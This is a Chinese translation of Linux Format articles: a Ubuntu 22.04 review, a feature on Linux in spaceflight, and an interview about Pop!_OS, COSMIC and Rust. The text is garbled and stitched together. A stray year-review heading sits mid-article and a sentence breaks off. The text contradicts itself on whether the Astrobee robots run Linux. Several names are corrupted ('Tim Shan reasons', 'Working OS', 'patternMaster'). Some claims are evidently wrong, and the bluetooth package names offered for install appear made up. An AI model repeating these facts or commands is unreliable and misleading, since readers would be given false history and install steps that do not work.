Wayland 在新闻报道中被相当地误传了（谁说的，我吗？*嘿嘿*）。历史上，最离谱的谎言是远程桌面会话、屏幕共享甚至简单的截屏在 Wayland 中是不可能的。不要相信这些神话。问题不在于 Wayland，而在于不支持它的程序。如果真是那样，本文中的所有截图都不会出现在这里。

在 22.04 中考虑过但最终未能实现的变更之一是用 PipeWire 替换 PulseAudio。后者是一个全新的多媒体框架，恰好在 Wayland 上实现了桌面共享和屏幕录制。程序可能仍然依赖 PipeWire（尤其是浏览器），但资深的 PulseAudio 仍是默认的音频服务器。如果你想更改此设置（例如，如果你在使用蓝牙耳机时遇到困难），你可以通过以下命令安装 PipeWire 会话：

`$ sudo apt install pipewire-pulse`

然后注销并重新登录，运行命令：

`$ pactl info`

你应该能看到（在其他行之中）：
**Server Name: PulseAudio (on PipeWire 0.3.x)**

某些蓝牙音频编解码器可能需要额外的库。如果遇到困难，请尝试：

`$ sudo apt install libbluetooth-aac2 libbluetooth-abc`

或者，寻求更最新的文档，不幸的是我们是静态的！

Ubuntu 自 18.04 LTS 以来一直使用 Gnome 作为默认桌面。如果你渴望 Unity 桌面，那么你可能会对适用于之前 LTS 版本 Ubuntu 16.04 (Xenial Xerus) 的扩展安全维护 (ESM) 支持感兴趣。该版本的官方支持期已于 2021 年 5 月结束，但此版本仍被广泛部署，Canonical 为这些安装提供付费支持。这可以通过其 Ubuntu Advantage for Infrastructure 计划获得。个人用户最多可在三台机器上免费使用 ESM，因此如果你想让 Xerus 继续生存，现在可以用一种得到更多支持的方式来实现。

### 我们正处于 GNOME 的黄金时代！

> “长期困扰 Ubuntu Gnome 性能的卡顿和内存泄漏已经彻底消失了。”

我们感到有些怀旧，所以在 XP 上启动了 Ubuntu 16.04。是的，它已经启动了一段时间。Ubuntu 在使用 USB-C 扩展坞（或插着网线）时显得出奇地快。但一旦我们更新了它，将机器注册到 Ubuntu Advantage 并更新了过去 6 年里的每一个维护版本，就很明显，这并不是运行旧软件的好理由。尤其是当你有权为了个人爱好运行三个实例时。如果你在寻找实际的电话和工单支持，单台桌面安装每月 12.99 美元起，服务器每年 7.50 美元起。这并不是真的为了帮助初学者解决打印机或 Wi-Fi 工作问题。对于这类支持，请在 https://ubuntuforums.org 上礼貌询问，或在 askubuntu.com 上提问。

相比之下，重新启动进入新发行版要快得多且更流畅，坦白说，在经历了 5 年的 UI 开发后，我本不期望如此。这个版本可能没有我们曾经享受的那种突破性功能，但这可能是件好事。我们 5 到 15 年前所热爱的所有那些功能和破坏性变更，都是桌面长期支持的结果。Ubuntu 现在已经成熟了。

有一件事很难截屏（但这一次不是因为 Wayland），那就是新的截屏工具。（多么讽刺！）


无论你是否喜欢，桌面环境已经成型，再去试图改变它没有意义。相反，我们应该考虑到这样一个事实：在作为旗舰桌面使用了四年的 Gnome 之后，这种体验现在已成为一种习惯。长期以来困扰 Ubuntu Gnome 性能的卡顿和内存泄漏现在已经真正消失了。

### 一个共同的主题

自从 GTK3 引入以来，Gnome 主题一直处于关注的焦点。但一段时间以来，讨论经常围绕着“他们是否允许我自定义”，因为现在禁止对 Gnome 应用程序进行自定义主题设计。默认的 GTK3 主题现在被固定下来了。这个默认的 GTK3 主题就像一个梵文词汇，意为“唯一的一个”（字面意思是“非二”），但它其实并非真正唯一，因为开发者们很乐意编写自己的 CSS 样式，从而覆盖通过设置守护进程（settings daemon）所允许的有限更改。

在 GTK4 中，这个主题被提升为一个平台库 `libadwaita`，Gnome 开发者将使用它来避免与他们的《人机交互指南》（Human Interface Guidelines, HIG）产生不一致。而且（就像在 HIG 领地中经常看到的那样），只能有一个。GTK3 应用程序仍然会遵循自定义主题，但 GTK4 应用程序将仅支持通过设置守护进程提供的有限更改（例如，背景色和强调色）。

对于 Ubuntu 22.04 来说，这可能是个坏消息，因为目前它混合使用了 Gnome 42 应用程序（`libadwaita`）和一些 Gnome 3（旧版本）应用程序（例如基于 GTK3 和 `libhandy` 的 Nautilus）。这可能会在发布前带来不一致性，否则将会出现一些视觉上的不统一。如果这困扰你，那么你可能想在接下来的短时间内远离 Gnome 42，在这种情况下，下方的方框中提供了一些建议（见下文）。



旧的 Gnome Tweaks 工具仍然在软件库中可用，但就像 GNOME 网站一样，它不再能管理 Gnome 扩展。没关系，因为它几乎能完成其他所有事情，包括清理我们的 Gnome 扩展在延迟安装包 KDE Plasma 中留下的混乱。Tweaks 还允许你管理启动程序，更改标题栏可见性（全部可见或将它们移至左侧，MacOS 风格）以及调整遗留主题。你可以通过以下命令安装 Tweaks：

```
sudo apt install gnome-tweaks
```

这将允许使用另一个目前处于 beta 版本的 Extensions 工具。在撰写本文时，它还不允许安装新扩展，否则我们就可以弃用旧的软件库了；但为了获得更强的可定制性，可以尝试在 Extension Manager 中找到的 Perfection。它允许覆盖 shell 的部分内容（包括移除顶部栏）以使其更加极简。我们自己并不追求 Gnome 扩展（尽管有两个管理它们的程序），让我们知道你在尝试什么。尽情享受 Ubuntu 22.04 吧！


### 考虑其他选择？

最近，倾向于 Linux 的社交媒体频道似乎出现了一股真正的风暴，纷纷宣布他们“不再推荐 Ubuntu”或类似的话。我们推测原因多种多样，但共同点在于 Snap、Wayland 以及 Gnome 似乎无法满足每个人的口味。

我们仍然衷心向任何初学者推荐 Ubuntu —— 因为它“开箱即用”。即使你不喜欢它，正如我们看到的自定义争议一样，选择一个扩展版或基于你的口味的衍生版是可行之路。但如果这些频道不推荐 Ubuntu 而是推荐其他版本，那些版本本身往往也是基于 Ubuntu 的 —— 例如 Linux Mint、Pop!_OS 和 Elementary OS。这些都是伟大的发行版，在 Ubuntu 的基础上提供了一些细微的差别，但最终它们都依赖于 Ubuntu 的基础设施、软件包和文档。也许直到现在为止是这样。

我们看到 Linux Mint Debian Edition (LMDE5) 正在迅速获得关注。Pop!_OS 已经离开了其 POPperata 软件库，并正在开发一个新的基于 Rust 的桌面环境（旨在脱离 Gnome）。而 Elementary OS 拥有自己的应用商店和应用，并且在 Snap 之外支持 Flatpaks。总之，如果 Ubuntu 不适合你，有许多衍生版本供你切换，而无需学习一套全新的工作方式。

我们很高兴看到更多的人尝试 Fedora。它现在变得更容易上手，尤其是在安装非自由软件方面。凭借其快速的发布周期，这使其成为一个极佳的游戏平台。如果你觉得 Ubuntu 不再能满足你的需求，非常值得一试。

> Fedora 以及那些目前大受欢迎的同名发行版。

### 太空中的 Linux！

经历了不稳定的开端，Linux 在航天领域正变得越来越稳固。**Mike Bedford** 将回顾其迄今为止的成功以及未来的前景。

为什么宇航员使用 Linux？因为在太空里你不能打开 Windows（窗户）。玩笑之余，事实是天空现在充满了热爱 Linux 的计算机。但这一切都在改变，因此我们将探讨 Linux 如何成为太空探索的重要促进因素。我们将从地球上的 NASA 超级计算机开始，经过国际空间站 (ISS) 轨道上的笔记本电脑，以及用于发射车辆和航天器的火箭飞行软件，直到驱动在火星上飞行的直升机的单板计算机。

在我们探索 Linux 在航天领域何处以及如何被使用时，我们还将深入研究其被使用的原因。Linux 迁移到太空是一个近期的现象，虽然并非完全出乎意料。因此，我们还将研究是什么阻碍了 Linux 在太空中的应用，并在很大程度上分析其产生的影响。最后，我们将探讨它勇敢地前往此前没有任何操作系统到达之地的前景。

### 超越地球

我们将观察 Linux 在太空探索中的应用场景。但首先，我们需要考虑基于太空的计算平台，以及从一般意义上讲，它们如何影响操作系统的选择。

以 20 多年前发射的 ISS 为例。由于 Linux 当时还是个“新面孔”，它不会被认真考虑，而现在谈到升级几乎不可行。许多内置的计算机硬件不支持现代发行版，升级硬件和软件将是一个成本高昂且高风险的策略。

但即使是一些较新的太空任务也未能采用 Linux。毅力号 (Perseverance) 火星车于 2021 年 2 月着陆，并将继续在耶泽罗陨石坑 (Jezero Field) 探索很长时间。但其主车载计算机使用的是 PowerPC 750 处理器 —— 这是一款在 1997 年推出的芯片！实际上，为了更高的安全性，它使用的是 32 位 PowerPC 750 的一个变体，称为 RAD750，这就引出了一个关键点：处理器在太空中表现不佳。由于必须不断承受辐射，它们比地球上的同类产品更容易出现偶尔的故障，甚至发生灾难性的永久失效。因此，用于太空的处理器通常经过抗辐射加固，以承受地球大气层之外生活的严酷环境。这些特殊处理器并不便宜。据报道，每个 RAD750 的成本在 80,000 至 200,000 美元之间 —— 因此我们几乎无法想象它们的开发成本有多高。


> NASA 即将开展的阿尔忒弥斯 (Artemis) 计划将使用这种 SLS 火箭，其车载设备中没有 Linux 机器，但在地球上，Linux 对发射前的模拟至关重要。

因此，底线是，制造商推出新型抗辐射芯片组的频率很低，且大多数芯片永远不会产生抗辐射变体。太空计算硬件陈旧的另一个原因（以及因此导致 Linux 在天空中稀缺的原因）是这里的情况正在发生变化，当我们观察 ISS 上所谓的“天基超级计算机”时就会发现。

### 在地球轨道上

虽然有报道称 ISS 上的所有笔记本电脑在 2013 年都迁移到了 Linux，但现实更为复杂，正如我们在采访 NASA ISS 航空电子和软件办公室系统经理 Dan Cummings 时了解到的一样。“你可以想象，许多组件的定制特性使其变得很棘手，”他告诉我们，“大多数组件高度定制，其功能类似于你在客机或军用飞机上看到的航空电子系统。”虽然他没有详细说明所有使用的硬件，但非关键系统确实运行着 Linux，但除了这些核心系统之外，情况更加多样化，他接着解释道。

“有一部分笔记本电脑和小计算机盒使用了 Linux。少数笔记本电脑被机组人员用作核心航空电子系统的命令界面。这些基于定制版本的内核。航空电子和机组界面软件都是为这些功能专门构建的，并运行在该 Linux 内核之上。

“额外的笔记本电脑和 IoT 设备构成了所谓的‘机组支持计算机’ (CSCs)。这类似于企业所称的‘任务关键型 IT 基础设施’，支持从电子邮件到高度定制的实验，以及所有机组人员的医疗监测，并管理车载太空环境。大多数 CSC 笔记本电脑是 Windows 10 设备；IoT 设备则基于 Debian Linux。剩余的笔记本电脑则分配给特定的实验应用和国际合作伙伴。其中一些是 Windows，一些是各种发行版的定制 Linux 版本。”


*标题：虽然它在 2021 年才着陆，但毅力号火星车的主处理器基于古老的 PowerPC 750 处理器。难怪它不运行 Linux。*

“ISS 上有 Honey、Queen 和 Bumble。这三个飞行机器人共同构成了 Astrobe 系统。它们的工作是帮助宇航员减少在常规任务上花费的时间，让他们有更多精力专注于只有人类才能做的事情。” NASA 表示，这些机器人“旨在完成诸如盘点、用内置摄像头记录宇航员进行的实验，或协作在空间站内移动货物等任务。此外，该系统还作为一个研究平台，可以通过编程和重新定义来执行微重力实验 —— 帮助我们更多地了解机器人控制在航天飞行中如何运作。是的，它们的控制计算机专门运行 Linux；两个基于 ARM 的内存计算机运行 Ubuntu/ROS，而第三个则配备了 Android 7.1。”

> **在 ISS 上运行 LINUX**
> “少数 [Linux] 笔记本电脑被机组人员用作核心航空电子系统的命令界面。”

所以我们已经看到了地球轨道上的 Linux 笔记本电脑和飞行机器人，但一个更强大的 Linux 机器……

### 为太空准备 Raspberry Pi

由欧洲空间局 (ESA) 与 Raspberry Pi 基金会合作发起的一项倡议 —— Astro Pi，为年轻的编程团队提供了让他们编写的应用程序在国际空间站上运行的机会。它使用 Python 和 Linux 操作系统。Astro Pi 平台包含一个 RPi 4、一个 5MP 摄像头、一个 IMU 和一个高性能摄像头。但如你从下面的照片中可以看到，它看起来与之前任何基于 Raspberry Pi 的天文设备都不同。

在 Astro Pi 被允许登上 ISS 之前，需要进行加固。首先，它必须能够承受起飞时产生的巨大震动。然后，为了确保使用它们的宇航员的安全，外壳的表面温度不能超过 45 度。它还必须没有锋利的边缘，并且必须证明它不会干扰 ISS 上的其他设备，且其他设备也不会干扰 Astro Pi。

现在，最新一代的 Astro Pi 已于 2021 年 12 月被送往 ISS，以替换在轨道上度过了六年的前代产品。在宇航员在太空进行短暂的准备期后，它们准备好运行学生程序了。参赛者面向来自 ESA 成员国或斯洛文尼亚、加拿大、立陶宛、拉脱维亚、马耳他的 19 岁及以下青少年团队，获胜作品将于 2022 年 5 月部署，2022/23 年的挑战赛将于 9 月启动。

尽管外观如此，这个在 ISS 上的 Astro Pi 内部包含 Raspberry Pi 硬件，并为年轻人提供了在轨道上看到自己的代码运行的机会。


## Linux Format 2023年度回顾

在 2017 年，一台名为“太空计算机”（Spaceborne Computer）的设备被送往国际空间站（ISS）执行为期一年的任务。它被描述为一台超级计算机，其目的是研究替代传统的辐射硬化方案，以保护计算机免受辐射暴露的危害。预计这将为使用比目前更先进、性能更高处理器铺平道路，而这正是未来长期载人任务（例如前往火星）所必需的。

太空计算机是由惠普企业（HPE）设计并生产的商业可用超级计算机。它包括具有高速互连的 HPE Apollo 4500 级系统，运行开源的 Linux 操作系统。根据 HPE 的说法，太空计算机包含的计算节点与 NASA 的顶级超级计算机之一 Pleiades 处于同一级别。

作为辐射硬化处理器的替代方案，开发了一种软件解决方案来减轻辐射对可靠性的负面影响。在强辐射事件期间，系统会降低功耗和核心数量，从而降低计算机系统的运行速度，旨在确定此类系统是否仍能运行。结论是乐观的：在整个任务期间，太空计算机在 207 天内每秒执行超过一万亿次计算（1 teraflop），且无需重启。

国际空间站上的笔记本电脑使用 x86 架构并运行多种操作系统，其中 Linux 支撑着机组人员与核心航空电子系统交互的核心接口。

航天飞机宇航员与俄罗斯联盟号以及其他几种发射载具一起，将快照和实用程序带到了国际空间站。在一段时间内，美国依赖俄罗斯的发射载具前往国际空间站。在那段时期，NASA 对俄罗斯发射载具的依赖是完全的。2012 年，航天飞机时代结束。太空不再仅仅是政府所有航天机构的领域。现在，国际空间站也由 SpaceX 和 Northrop Grumman Space Systems 的发射提供补给。而 SpaceX 的龙飞船（Dragon）作为首个载人飞行器，显得格外引人注目。

你可能会认为，在 NASA 领先，SpaceX 紧随其后。但这并非准确的评估，操作系统的选择就是一个典型的例子。因为虽然 NASA 即将推出的 SLS 发射载具在其飞行控制计算机中使用波音的私有操作系统，且猎户座（Orion）载人探索舱使用来自 Green Hills Software 的名为 Integrity-178B 的实时操作系统，但 SpaceX 显然坚定地站在 Linux 阵营。不过，这通常不是标准的 Linux，当然也不是你在桌面端会选择的任何发行版。但对于 SpaceX 来说，这显然是正确的选择。

这些在国际空间站上的漂浮机器人来自 Astrobee 系统。它们在基础任务上为机组人员提供帮助，但并不运行 Linux。

虽然 Linux 现在被广泛应用于 NASA 的关键任务中，但情况仍在变化，而国际空间站正是受益者。直到 2011 年退役之前，太空……

尽管 SpaceX 拒绝接受我们的采访，且其他详细信息较为匮乏，但业界普遍认为 Falcon 9 发射载具使用的是运行在 x86 处理器上的精简版 Linux，其飞行控制软件是用 C++ 编写的。

### 超级计算与太空探索

你可能已经注意到，自从 1972 年的阿波罗 17 号以来，NASA 再次计划将宇航员送往月球的界面已经发生了变化。该计划被称为“阿尔忒弥斯”（Artemis）计划，将基于由新型空间发射系统（SLS）火箭发射的猎户座飞船。但鉴于 NASA 在关键任务应用中对使用 Linux 的明显犹豫，阿尔忒弥斯任务在猎户座或 SLS 中都不包含 Linux 可能会令人惊讶。不过，这并不意味着阿尔忒弥斯的成功不依赖于 Linux —— 恰恰相反。

模拟技术支撑着所有 NASA 航天器的设计、隔离和验证，阿尔忒弥斯也不例外。不出所料，这些模拟极其消耗内存，需要巨大的计算能力。例如，着陆过程的模拟正在 NASA 的艾姆斯研究中心（Ames Research Center）的一台名为 Aitken 的超级计算机上进行。2021 年 11 月，当它拥有 242,688 个核心时，它是全球第 49 快计算机，但此后它又进行了扩容。而且毋庸置疑，由于系统能力的优势自 2017 年起就贯穿了全球 500 强超级计算机，它的运行限制已被突破。

如果你想进一步了解为什么 Linux 是超级计算领域无可争议的王者，请务必查看我们在 LWF128x 中的探索。因为如果你研究这个话题，你会发现商业高端操作系统是按核心单独授权的，如果你拥有 25 万个核心，自由开源软件（FOSS）无疑是唯一的选择，而此类财务考量仅仅是冰山一角。

看这里，在发射前的最后检查阶段，得益于其基于 Linux 的计算机， Ingenuity 无人机现在正在红色的火星上运行。

### 更遥远的领域

如果能告诉你基于 Linux 的计算机搭载在先驱者 10 号和 11 号（Pioneer 10 & 11）探测器上，它们现在已经离开了太阳系并奔向星辰，那将太棒了。但事实并非如此。这些探测器中的第一个在首款微处理器（英特尔 4004）发布仅四个月后就发射了。因此，先驱者号搭载的是由独立逻辑门组成的计算机，这意味着它可能根本没有操作系统。然而，Linux 确实存在于地球之外，实际上是在地球之外约 2.78 亿公里的地方，而且花了一年多时间才到达那里。

位于加利福尼亚州的喷气推进实验室（JPL）负责 NASA 的火星及更远距离的探测任务。为了了解谁在改变火星探索的面貌，我们采访了 JPL 的高级飞行软件工程师 Tim Shan reasons，他协调各方以增加 Linux 在太空中的应用。

首先是成功案例。“Linux 最近在 JPL 有两个显著的应用：Ingenuity 直升机最近展示了一些惊人的能力，而 Perseverance 任务告诉我们，其科学系统也运行在 Linux 上，”Tim 欣然告诉我们。“这两个系统都被视为技术演示，并不被认为是漫游车生存的关键，但 Linux 在这两个案例中都表现得非常出色。”

鉴于太空项目的计算硬件因环境复杂而受到严格评判，Ingenuity 的结论是一个令人惊讶的转变。火星大气的密度比地球薄 100 多倍，这对计划在该行星上飞行的飞行器重量提出了极高要求。除了使用比常规尺寸更小的转子外，将功耗保持在最低限度至关重要，这就涉及到了计算硬件。为了满足这些苛刻要求，选择了基于 ARM 的高通骁龙 845 板载计算机，而且，没错，你猜对了，选择了 Linux，因为 NASA 通常使用的 Working OS 操作系统是一个不支持高通骁龙芯片的 Unix 系统。

那么，为什么这些应用是特例而非常态？除了航天领域经常使用过时的计算硬件遗产外，还有什么阻碍了 Linux 在太空中的采用？Tim 提出了几个原因，首先是对实时性能的担忧。“飞行软件通常必须在航天器的严苛限制下编写。如果操作系统不能保证事情实时发生，它就不能被使用。”

“Linux 最初并不是作为实时操作系统设计的。Linux 的主线内核虽然有可以提高性能的实时补丁，但在将其应用于板卡供应商提供的修改版内核时一直存在问题。公平算法和 I/O 调度使得难以保证时间精准度。”

我们可以想象，他的第二个原因可能会引起人们的担忧。“无论是否公平，人们认为由于 Linux 基于开源社区，很难知道或合理评估构成内核的代码质量，尤其是当发行版中出现某些片段时。”

但情况正在改变。正如 Tim 所解释的，“Linux 的角色仍在演变，不同组织在使用方面的风险承受能力不同，但我认为我们第一次在 Linux 具有优势的领域找到了切入点：数据处理以及非关键场景下的飞行硬件操作。Linux 带来了巨大的开源优势，可以加速开发并利用社区中已有的软件。我还认为，有机会在利用虚拟机管理程序（hypervisors）将实时域与处理域分开的计算环境中部署 Linux。”

因此，虽然 Linux 没有彻底颠覆太空探索，但改变正在发生。你可以欣慰地想到，Ingenuity——第一个在异星表面飞行的飞行器——正是航天工程中一个由 Linux 驱动的奇迹。

### 介绍立方体卫星 (CUBESATS)

太空探索可能已经演变为使用像 SpaceX 这样的商业服务提供商，但太空研究的进一步民主化只需一次飞跃，为什么不呢？但你可能会想错了。CubeSats 是微型卫星，直径仅 100 毫米，重量不超过 1.33 公斤。它们的建造费用可能低至 3 万英镑，并且可以作为次要载荷搭乘大型卫星的发射任务，对于大多数可维护卫星来说，其发射成本并不高。因此，它们成为了学生项目的基础（通常由 ESA 等机构资助），甚至由爱好者团体（例如业余无线电协会）构建。

虽然 Linux 在 CubeSats 中并非通用，但鉴于开源哲学是许多 CubeSat 社区的核心，Linux 与 FreeRTOS 等系统一样，成为一种常见选择也就不足为奇了。开源方法远远超出了操作系统，且不局限于软件。开源硬件处理器板很常见。你可以找到推进器等组件的设计，甚至出现了完整的卫星设计，包括 Libre Space Foundation 的设计。此外，还存在开源卫星地面站网络，据报道，如果你有一台 3D 打印机，你只需花几百英镑就能构建自己的地面站。

SpaceX 搭载在像 Crew Dragon 这样的飞船上的飞行控制计算机运行在 Linux 之下，这与 NASA 的方法截然不同。


### POP! OS 之巅

### System76 开发者 Michael Murphy 与 Linux Format 自称最狂 Pop 粉丝的 Jonni Bidwell 分享他对 Pop!_OS 的见解。

在美国，那些在寻找 Linux 机器的读者如果能直接联系丹佛的 System76 并购买一台其出色的台式机或笔记本电脑，效果会好得多。不，这不是一篇软文，这只是事实。自从 System76 在 2000 年代中期推出首批机器以来，我们就对其产品印象深刻。我们也会向英国读者推荐，但跨大西洋的运输费用太贵了。哦，而且对 1776 年美国革命的引用，也稍微触动了我们那些被政府操纵且被媒体禁声的敏感神经。

与此同时，System76 自 2017 年起就开始分发其最新的发行版。而且——它在其他 PC 上运行得同样出色。Pop!_OS 绝非仅仅是另一个 Ubuntu 衍生版，它运行着不同的引导加载程序，使用自己的 shell（名为 COSMIC，即 Computer Operating System Main Interface Components），并拥有自己的电源调度器。这使其成为笔记本电脑的理想选择。

我们采访了 System76 的软件工程师兼 Pop!_OS 维护者 Michael Murphy，讨论最新的 Pop!_OS 更新，包括在社交媒体上的大火，以及那些不想看起来像 Gnome 的基于 Gnome 的发行版所面临的挑战。System76 并不满足于此，他们正在构建自己的编程语言。甚至该公司即将推出一款由 Rust 驱动的新桌面。我们确信你们和我们一样想听到相关消息。那么请继续阅读……

> **简而言之，Rust 的吸引力在于**
>
> “在试用了一段时间 alpha 版本后，我很清楚 Rust 就是软件开发的未来。”

Linux 服务器在 Linux 诞生之初就已广泛可用。但在很长一段时间里，买一台预装 Linux 的台式 PC 极其困难，更不用说笔记本电脑了。千禧年之交出现了一些小型供应商，但其中大多数随后都消失了。如今情况大不相同，像戴尔（Dell）和联想（Lenovo）这样的公司会很乐意向你出售一台开箱即用且运行 Linux 的笔记本电脑。我们还有像 Purism 和 Pine 这样的专业制造商，他们同时生产 Linux 笔记本和手机。当然，也不能不提到 Tuxedo 和 Entroware。但请看看 System76，它于 2005 年在科罗拉多州丹佛市成立，从那时起就一直在制造工艺精湛的 Linux 机器。

为了引发一场开源革命（以及摆脱对专有硬件的依赖），他们出货的第一批机器是运行 Ubuntu 5.10 Breezy Badger 的台式机。快进几年，该公司现在拥有数十名员工，实现了自主生产，拥有自己的源码组件和设计，并且还制作了自己的操作系统。尽管标点符号略显尴尬，但 Pop!_OS 赢得了极高的人气，因为它面向所有人开放，而不仅仅是 System76 设备的持有者。

我们与 Michael 进行了交谈——他是一名 Pop 开发者、Rust 爱好者以及社区人士（@michaelsm，活跃于 Pop 的社交媒体）——以进一步了解他在通用发行版方面的工作。他的 Linux 之旅始于 2008 年。“对于当时任何拥有 AMD 显卡 PC 的人来说，Linux 的桌面体验简直是场灾难，”Michael 说。“尽管我遇到了应用程序频繁崩溃、内核恐慌（kernel panics）和无法复现的 Bug 等所有问题，但好奇心更强。我相信开源运动有巨大的潜力。Linux 桌面有一天将成为硬件上 Windows 的可行替代方案，主要因为它支持 x86 架构。”

“噢天哪，我们记得那个专有的 Freetype 库。驱动故障很常见，而且许多 Bug 在 C# 和 .NET 时代之后才被解决。通过 Java，他在两年后选择了退出，转而选择了 Linux。”

他说：“与专门构建的系统世界相比，Linux 是一个好得多的工作环境。”几年后的 Michael 发现，在 2015 年期间，他接触过许多不同的编程语言，而 Rust 即将发布。在花时间研究这种语言后，他意识到这就是软件开发的未来。Rust 生态系统发展迅速，GTK 绑定功能日益增强，他在设计系统 shell 的同时制作 GTK 应用程序，并加入了 Redox OS。

Redox (www.redox-os.org) 是 Pop 创始人 Jeremy Soller 开发的基于微内核、类 Unix 的操作系统，是用 Rust 编写的。正是通过他在 2018 年在 Redox OS 的工作，Michael 在 2019 年加入了 System76 团队。“我的初始任务是与 elementary OS 协作开发一个用 Rust 编写的 Linux 发行版安装程序后端，并配有 Vala 编写的 GUI 前端。从那时起，我们参与了各种 Pop 项目，并尝试在 Reddit 和 patternMaster 上积极支持 Pop 社区。”

所以它与我们喜爱的另一个基于 Ubuntu 的发行版有联系：“Cassidy [James-Blaide] 在全职加入 elementary OS 之前曾为 Pop 做 UX 工作。他设计了 Pop 早期的 GTK 项目，这就是为什么 Pop Shop 和安装程序是 elementary AppCenter 和安装程序的分叉版本。”

然而，elementary 始终在利用 Avalonia 作为其最喜爱的编程语言方面犹豫不决，我们将此称为“转折点”。当前的 Pop 桌面被称为 COSMIC，但 System76 正在开发一个同名且由 Rust 驱动的桌面环境，这已经是一个公开的秘密。

### 一场 COSMIC 之旅

我们询问 Michael COSMIC 如何与其 Gnome 起源和前身相结合。“现有的 COSMIC 是一个完全用 JavaScript 编写的桌面，是一系列对 GNOME Shell JavaScript 进程的‘猴子补丁’（monkey patches），它直接绑定到可以访问 C 库的 C 进程。关于目前的实现状态有很多可讨论的地方，从内存泄漏、性能问题，以及最常见的许多未被发现的安全漏洞。”

“在我开发 pop-shell 时，有很多限制性因素是我无法解决的，而且许多 Bug 仍然未被修复。例如，我无法将窗口缩小到其最小宽度和高度以下以适应平铺。任何尝试绕过该限制的操作都会导致 shell 崩溃并出现各种安全错误。”

至于为什么 System76 如此推崇 Rust，Michael 说：“喜欢 Rust 的原因很多，而且它与 C 和 C++ 非常不同。C++ 作为一种编程语言已经 50 岁了，它继承了许多缺陷，同时又增加了额外的缺陷。两者都在互联网成为通用概念之前被设计出来。几十年的编程语言理论研究在这些设计中完全缺失，甚至很多研究在 C 设计之初就被忽略了。这两种语言在很久以前就已经达到顶峰了。继续用它们开发新项目是很乏味的。人们投入了惊人的资金试图在编译器中绕过一些设计缺陷，但无论投入多少研究，最终结果都不够理想。在尝试解决由其使用引起的各种常见 Bug 和漏洞时，可能浪费了巨额资金。我们需要对它的使用及其后果更加诚实。即使是微软也承认，其 70% 的漏洞是由它引起的。”

> “许多人可能会回答内存安全是使用 Rust 的主要原因，但实际上，它是 Rust 中三个更重要功能的副作用，这些功能在某些方面比单纯的内存安全更重要。这些功能是：别名 XOR 可变性规则（aliasing XOR mutability rule）、所有权模型（ownership model）和类型标记（type markers）。”

Pop 推出于 2017 年，当时 Ubuntu 放弃了 Unity 桌面而选择了 Gnome。其官网 (https://pop.system76.com) 将 Pop!_OS 描述为“一个面向将计算机作为发现和创造工具的 STEM 和创意专业人士的操作系统”。我们对此并不否认。自成立以来，它发展得越来越强，引入了新的平铺窗口模式、用于管理 Tensorflow 安装的助手、定制的电源调度器等。

### Linux 技术贴与 Pop OS

然而，Pop!_OS 最近结交了一些盟友，原因则不那么幸运。去年 9 月，著名的 YouTube 频道 Linus Tech Tips (LTT) 接受了一项挑战，将 Linux 作为日常驱动系统。结果并没有让 Pop!_OS 显得光彩照人，因为 Linux（并非特指 Pop!_OS）让他们的生活变成了地狱。由于一个系统 Apt Bug 想要删除大量重要的系统软件包，Apt 意识到这可能是不合理的，但 Apt 要求用户输入短语 “yes, id do as u say”。幸运的是，Linus 按照提示操作了，于是他的系统就这样崩溃了。

Michael 解释了事情是如何变糟的。“这个问题是因为推送给 Launchpad 的一个 Systemd 更新仅构建并发布了 amd64 软件包。Steam 依赖于 Systemd 的 i386 库，因此无法安装。当时，我们的系统更新依赖于 Launchpad，但 Launchpad 最近开始阻止软件包的 i386 构建，除非该软件包在白名单中。在此之前，我们发布的 Systemd 软件包都在白名单中，但我们忘记将新版本的 Systemd 添加进去，导致该版本不被允许。”

“我们立即注意到了这个问题并在一个小时内发布了修复方案。而我们知道的是，LTT 此时正在直播安装过程。由于直播是公开的且邀请了公众参加，关于这次公共事故的传闻开始传播。一旦传开，就出现了没完没了的指责，要求我们修复这个问题。”

### RUST 的三位一体

好了 Michael，请告诉我们关于 别名 XOR 可变性、所有权模型以及……你提到的其他东西。“别名 XOR 可变性意味着一个值要么只能通过多个只读引用进行借用，要么只能通过单个可变引用进行借用。”等等，Michael。“简单来说，这意味着当一个值被积极引用时，你不能传递它的所有权。无论你使用什么编程语言，这在技术上都是应该遵循的最佳实践，但在 Rust 出现之前，无法在编译时进行验证。”

“Rust 中的所有权模型简单地规定，任何通过值传递给函数的变量都会将该值的所有权转移给该函数。这意味着变量在传递给函数后就不能再次使用。这对 API 作者非常有用，因为他们可以确保某个应仅使用一次的值被某种类型消耗掉。纯标记（Pure markers）是另一种有趣的编译时机制，用于限制 API 中值的存在。编译器使用这些标记来防止值在线程间移动或共享时的误用。这使得开发多线程应用程序变得简单得多。”

“我特别喜欢这些功能的地方在于，它们虽然不是使 Rust 代码具有‘自文档化’特性的根本原因，但它们能让你知道某个函数预计会修改引用，而所有权转移使得编译时状态机和类型成为可能。它们还提高了代码质量的最低门槛，使得所有 Rust 代码都能遵循这些最佳实践。它们还实现了一些有趣的机制，例如编译时引用计数和 GhostCell 研究论文（见 https://plv.mpi-sws.org/rustbelt/ghostcell/paper.pdf）。”

### 极速 Rust 项目

Rust 正变得极其流行。在 GitHub 上，被描述为“用 Rust 编写的闪电般快速的 ()”项目数量已经多得离谱（如 Alacritty, Josmutron, Lapce）。我们在 2015 年的 OSCON 上有幸见到了 Rust 拥护者（也是开源偶像）Ian Blunden（见 LXF20）。他告诉我们，在人们使用了几十年的 C 和 C++ 并经历无数次“缓冲区溢出”后，结论已经很明显，实验已经结束：人类无法安全地编写 C 代码，但修复方案已经崩溃。所以，在尝试编写内存安全代码几十年之后，我们需要一种新方法。而这种方法就是通过像 Rust, Swift 和 Go 这样的新语言来实现。

与 Ubuntu 相比，Pop!_OS 拥有一个好得多的安装程序，并且在出现问题时配备了完整的刷新/修复选项。


问题（到目前为止早已修复），想要知道为什么会发生这种情况。

